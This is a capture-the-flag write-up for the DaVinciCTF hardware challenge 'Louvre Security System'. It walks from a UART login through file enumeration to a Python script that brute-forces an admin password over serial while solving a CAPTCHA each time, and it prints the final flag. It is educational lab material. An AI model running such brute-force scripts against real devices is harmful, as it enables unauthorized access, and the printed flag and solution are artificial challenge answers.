


# DaVinciCTF - 💻 Louvre Security System

**Difficulty**: Medium<br>
**Category**: Hardware<br>
**Description:** The renowned Louvre Museum has been targeted by a series of sophisticated cyberattacks. According to intelligence reports, the curator Leonardo, an enigmatic figure in the cybersecurity underground has secretly installed a backdoor into the museum's newest security system. This rogue Curator, once a brilliant security engineer employed by the Louvre, was dismissed under mysterious circumstances after raising concerns about inadequate security measures around priceless artifacts.

Before their departure, they implemented a hidden UART terminal disguised as a maintenance port, providing shell access to critical security controls.

Your mission: Connect to the UART interface, authenticate into the system using the visitor account (username: `visitor`, password: `monalisa`), and navigate through the Curator's carefully crafted security layers. Once inside, you must find a way to access the administrative features and uncover exactly what modifications the Curator made to the system. The flag you discover may unlock further mysteries within the museum's digital vaults.<br>

- [🔍 Step 1: Initial UART Connection](#🔍-step-1-initial-uart-connection)
- [🔐 Step 2: System Enumeration](#🔐-step-2-system-enumeration)
- [🔓 Step 3: Password Cracking](#🔓-step-3-password-cracking)
- [⚙️ Step 4: Administrative Access](#⚙️-step-4-administrative-access)

For this challenge, each team received:


- Dupont cables ✅
- A DVID board pre-flashed with the challenge ✅

## 🔍 Step 1: Initial UART Connection

The first step is to establish a connection to the UART terminal on the DVID board. After the challenge finished booting, we can see connection information displayed on the board's screen:



The screen shows that the UART connection requires a baudrate of 9600. Using this information, we establish a connection to the UART:

```bash
screen /dev/ttyUSB0 9600
```

Once connected, we're presented with the security system's login interface:

```bash
--- Terminal on /dev/ttyUSB0 | 9600 8-N-1
STM32 architecture detected
Louvre Museum UART Security Challenge

*****************************************************
*                                                   *
*             LOUVRE MUSEUM SECURITY                *
*                SYSTEM TERMINAL                    *
*                                                   *
*                                                   *
*                         /\                        *
*                        /  \                       *
*                       /    \                      *
*                      /      \                     *
*                     /        \                    *
*                    /          \                   *
*                   /            \                  *
*                  /______/\______\                 *
*                                                   *
*               RESTRICTED ACCESS ONLY              *
*                                                   *
*****************************************************

Please login to continue.
Usage: login username:password:OuwyJGwM
```

📝 **Note**: The login format includes a CAPTCHA code at the end which changes with each login attempt.

Using the credentials provided in the challenge description, we can authenticate as a visitor:

```bash
> login visitor:monalisa:OuwyJGwM
Authentication successful!
Welcome, Visitor. You have limited access.
```

## 🔐 Step 2: System Enumeration

With visitor access granted, we can now explore the system and identify potential attack vectors:

```bash
visitor@louvre:~$ help
Available commands:
  help      - Show this help message
  clear     - Clear the screen
  logout    - Log out of the system
  about     - Display system information
  art       - Display Louvre Pyramid ASCII art
  ls        - List files in current directory
  cat <file> - Display contents of a file
```

Our enumeration reveals a limited set of commands available to the visitor account. Let's examine the file system:

```bash
visitor@louvre:~$ ls
total 16
drwxr-xr-x 3 visitor visitor 4096 Mar 29 14:22 .
drwxr-xr-x 3 root    root    4096 Mar 28 09:15 ..
-rw-r--r-- 1 visitor visitor 3526 Mar 28 09:15 .bashrc
-rw-r--r-- 1 visitor visitor 4096 Mar 28 09:15 pw.txt
-rw-r--r-- 1 visitor visitor  124 Mar 29 14:22 welcome.txt
```

Let's examine these files to gather potential information for privilege escalation:

```bash
visitor@louvre:~$ cat welcome.txt
Welcome to the Louvre Museum Security System
For visitor inquiries, please contact the information desk.
For administrative access, please use the leonardo account.
```

The file reveals the existence of an administrative account named `leonardo`.

Next, let's examine the password file:

```bash
visitor@louvre:~$ cat pw.txt
GlassPyramid235%HdimaryPssalG
VenusDeMilo625&BoliMeDsuneV
VenusDeMilo497&BoliMeDsuneV
RomanPortraiture856#HerutiartroPnamoR
VenusDeMilo268!JoliMeDsuneV
[...]
```

We've discovered a password list that appears to contain potential credentials for the `leonardo` account.

## 🔓 Step 3: Password Cracking

To access the administrative account, we need to create a script that can handle the dynamic CAPTCHA system while trying each password from the list. Here's the Python script:
```python
import serial
import time
import re

SERIAL_PORT = '/dev/ttyUSB0'
BAUD_RATE = 9600
WORDLIST_PATH = 'wordlist.txt'
USERNAME = 'leonardo'
TIMEOUT = 2

def extract_captcha(data):
    match = re.search(r"Usage: login \w+:\w+:(\w{8})", data)
    if match:
        return match.group(1)
    match = re.search(r"Current CAPTCHA: (\w+)", data)
    if match:
        return match.group(1)
    return None

def main():
    try:
        ser = serial.Serial(SERIAL_PORT, BAUD_RATE, timeout=TIMEOUT)
        print(f"[*] Connecting to {SERIAL_PORT}...")
    except serial.SerialException as e:
        print(f"[!] Error opening serial port {SERIAL_PORT}: {e}")
        return

    print("[*] Waiting for device to initialize...")
    time.sleep(15)
    initial_output = ser.read_all().decode(errors='ignore')
    
    current_captcha = extract_captcha(initial_output)
    if not current_captcha:
        print("[!] Could not find initial CAPTCHA.")
        ser.close()
        return
    print(f"[*] Initial CAPTCHA: {current_captcha}")

    try:
        with open(WORDLIST_PATH, 'r') as f:
            passwords = [line.strip() for line in f]
    except FileNotFoundError:
        print(f"[!] Wordlist not found: {WORDLIST_PATH}")
        ser.close()
        return

    print(f"[*] Starting bruteforce for user '{USERNAME}' with {len(passwords)} passwords.")

    for password in passwords:
        if not current_captcha:
            print("[!] CAPTCHA lost. Attempting to re-acquire...")
            ser.write(b'\n')
            time.sleep(0.5)
            response_data = ser.read_all().decode(errors='ignore')
            current_captcha = extract_captcha(response_data)
            if not current_captcha:
                print("[!] Failed to re-acquire CAPTCHA. Exiting.")
                break
            print(f"[*] Re-acquired CAPTCHA: {current_captcha}")

        login_attempt = f"login {USERNAME}:{password}:{current_captcha}\n"
        print(f"[*] Trying: {password} (CAPTCHA: {current_captcha})")
        ser.write(login_attempt.encode())
        time.sleep(0.5)
        
        response_data = ser.read_all().decode(errors='ignore')

        if "Authentication successful!" in response_data and "Welcome, leonardo" in response_data:
            print(f"\n[SUCCESS] Login successful!")
            print(f"[*] Username: {USERNAME}")
            print(f"[*] Password: {password}")
            break 
        elif "Invalid captcha" in response_data or "Authentication failed" in response_data:
            new_captcha = extract_captcha(response_data)
            if new_captcha:
                current_captcha = new_captcha
            else:
                ser.write(b'\n') 
                time.sleep(0.5)
                response_refresh = ser.read_all().decode(errors='ignore')
                current_captcha = extract_captcha(response_refresh)
                if not current_captcha:
                    print("[!] Could not get new CAPTCHA after failed attempt. Trying next password with old CAPTCHA or exiting if it fails again.")
        else:
            new_captcha = extract_captcha(response_data)
            if new_captcha:
                current_captcha = new_captcha
            else:
                ser.write(b'\n')
                time.sleep(0.5)
                response_refresh = ser.read_all().decode(errors='ignore')
                current_captcha = extract_captcha(response_refresh)
                if not current_captcha:
                     print("[!] Unknown response and could not get new CAPTCHA. Continuing cautiously...")
        time.sleep(0.1)

    print("[*] Bruteforce attempt finished.")
    ser.close()
    print("[*] Serial port closed.")

if __name__ == "__main__":
    main()
```
Let's run the script:
```python
python3 uart_bruteforce.py
[*] Connecting to /dev/ttyUSB0...
[*] Waiting for device to initialize...
[*] Initial CAPTCHA: OuwyJGwM
[*] Starting bruteforce for user 'leonardo' with 100 passwords.
[*] Trying: GlassPyramid235%HdimaryPssalG (CAPTCHA: OuwyJGwM)
[*] Trying: VenusDeMilo625&BoliMeDsuneV (CAPTCHA: AvAnjauv)
[*] Trying: VenusDeMilo497&BoliMeDsuneV (CAPTCHA: RLtzBawd)
[*] Trying: RomanPortraiture856#HerutiartroPnamoR (CAPTCHA: TNGzlPau)
[*] Trying: VenusDeMilo268!JoliMeDsuneV (CAPTCHA: goTqHYfW)
[...]
[*] Trying: LeonardoDaVinci743$BicniVaDodranoeL (CAPTCHA: sumjqPnb)

[SUCCESS] Login successful!
[*] Username: leonardo
[*] Password: LeonardoDaVinci743$BicniVaDodranoeL
[*] Bruteforce attempt finished.
[*] Serial port closed.
```
After a few seconds, we found the password of leonardo and can now connect to an administrator account.

```bash
Usage: login username:password:ipZKvScF
> login leonardo:LeonardoDaVinci743$BicniVaDodranoeL:ipZKvScF
Authentication successful!
Welcome, leonardo. You have administrative access.
```

Do we now have different rights and files ?
```bash
leonardo@louvre:~# help
Available commands:
  help      - Show this help message
  clear     - Clear the screen
  logout    - Log out of the system
  about     - Display system information
  art       - Display Louvre Pyramid ASCII art
  ls        - List files in current directory
  cat <file> - Display contents of a file
  config    - Display system configuration (admin only)
  mqtt --status     - Check MQTT connection status (admin only)
  mqtt --connect    - Connect to MQTT broker (admin only)
  mqtt --validate <device_id>  - Validate device subscription (admin only)
```

Yes we have new commands we can run, especially mqtt ones
```bash
leonardo@louvre:~# mqtt --status
MQTT connection status: DISCONNECTED
Validation status: NOT VALIDATED

leonardo@louvre:~# mqtt --connect
MQTT connection...
MQTT connection established!
To validate, send your discovered device ID using: mqtt --validate <device_id>
```
It seems that the mqtt is not connected and we need a device id to validate it

```bash
leonardo@louvre:~# ls
total 28
drwxr-xr-x 4 leonardo leonardo 4096 Mar 29 15:32 .
drwxr-xr-x 3 root    root    4096 Mar 28 09:15 ..
-rw------- 1 leonardo leonardo  220 Mar 28 09:15 .bash_history
-rw-r--r-- 1 leonardo leonardo 3526 Mar 28 09:15 .bashrc
drwx------ 2 leonardo leonardo 4096 Mar 28 09:15 .cache
-rw-r--r-- 1 leonardo leonardo   56 Mar 29 12:43 notes.txt
lrwxrwxrwx 1 leonardo leonardo   21 Mar 28 09:15 security.log -> /var/log/security.log

leonardo@louvre:~# cat .bash_history
ls -la
cd /var/security
cat config.json
./security_thread --status
clear
exit

leonardo@louvre:~# cat notes.txt
Remember to rotate thread key daily.
Current key: Check security log (/var/log/security.log)
leonardo@louvre:~# cat security.log
=== Security Log ===
[2025-03-29 08:15:23] System startup
[2025-03-29 10:32:45] Failed login attempt: username=admin
[2025-03-29 12:45:18] Backup completed successfully
[2025-03-29 14:03:52] MQTT connection established: devices/0a56eecf-2955-4756-8f5d-80adc2e55ac0
[2025-03-29 15:30:11] System check: All sensors operational
```
Here is the mqtt device id we need to be able to activate the connection.

```bash
leonardo@louvre:~# mqtt --validate devices/0a56eecf-2955-4756-8f5d-80adc2e55ac0
Attempting to validate with device ID: devices/0a56eecf-2955-4756-8f5d-80adc2e55ac0
Device ID matched! Successfully validated!
MQTT validation complete.
FLAG: DVCTF{L0uvr3_U4rt_Sh3ll_4rt1st}
```

Here is our flag: <br>
🚩 `DVCTF{L0uvr3_U4rt_Sh3ll_4rt1st}`


Note: The MQTT device_id is the link to an other challenge, you guessed it, an hardware MQTT one!


